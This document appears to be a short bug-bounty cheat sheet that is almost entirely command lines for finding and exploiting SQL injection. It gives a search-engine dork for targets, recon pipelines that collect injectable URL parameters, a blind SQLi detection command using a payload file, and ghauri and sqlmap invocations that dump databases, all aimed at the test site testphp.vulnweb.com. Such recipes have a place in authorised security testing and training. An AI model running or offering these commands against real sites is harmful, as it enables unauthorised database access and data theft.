 ## Dork

```
site:.in & filetype:php | filetype:asp | filetype:aspx | filetype:jsp | filetype:jspx & intext:"responsible disclosure"
```
<span>all country tlds https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json </span>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.all.parameters.txt
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.sql.parameters.txt
```

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```
